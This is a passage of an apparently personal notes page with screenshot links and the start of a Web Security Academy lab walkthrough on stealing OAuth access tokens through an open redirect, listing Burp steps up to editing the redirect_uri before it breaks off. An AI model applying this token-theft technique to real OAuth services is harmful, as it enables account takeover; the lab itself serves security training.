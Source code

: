```bash
```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611010349.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611010520.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611010544.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611010703.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611011230.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611010741.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611010242.png)

### Stealing OAuth access tokens via an open redirect
```bash

# This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

# To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner. 

# You cannot access the admin's API key by simply logging in to their account on the client application. 

# The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

# You can log in via your own social media account using the following credentials: wiener:peter. 

Go to: "My account"
Once redirected login as:

wiener:peter

Go to: HTTP history
Find:

GET /me HTTP/1.1

Send to repeater (for later)
Re-log
Go to: HTTP history
Find:

GET /auth?client_id=myts2a6dlxi262p7ws0up&redirect_uri=https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/oauth-callback&

Send to repeater

Change:

GET /auth?client_id=myts2a6dlxi262p7ws0up&redirect_uri=https://ac441fcc1ef29a53c0c45aec00bd0048.web-security-academy.net/oauth-callback&response_type=token&nonce=-1481991640&scope=openid%20profile%20email HTTP/1.1

To
```